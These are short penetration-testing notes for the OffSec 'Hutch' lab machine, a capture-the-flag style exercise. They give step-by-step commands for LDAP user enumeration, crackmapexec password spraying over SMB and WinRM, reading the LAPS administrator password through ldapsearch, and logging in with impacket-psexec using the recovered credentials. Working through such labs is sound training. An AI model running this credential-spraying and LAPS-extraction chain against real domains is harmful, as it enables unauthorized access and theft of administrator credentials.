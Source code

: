 Use ldap search for user enumeration and store results in a file.
```
ldapsearch -x -h 192.168.162.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
clean the file by first getting the usernames only
```
cat ldap_search.txt | grep -i "samaccountname"
```
then copying and pasting them into a file.
```
vi raw_users.txt
```
afterwards we edit and clean the file with this command.
```
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
```
used to crack found passwords or users.
```
crackmapexec smb 192.168.105.122 -u users.txt -p CrabSharkJellyfish192 --continue-on-success
```
used to find winrm access.
```
crackmapexec winrm 192.168.219.122 -u fmcsorely -p CrabSharkJellyfish192
```
used to find the shares on a file system.
```
crackmapexec smb 192.168.105.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
```
crackmapexec smb 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success
```
```
crackmapexec winrm 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success
```
used to find the admin password
```
ldapsearch -x -H ldap://192.168.105.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```
used to log in to the machine.
```
impacket-psexec hutch.offsec/Administrator:'$az+c]64++F{$A'@192.168.105.122
```

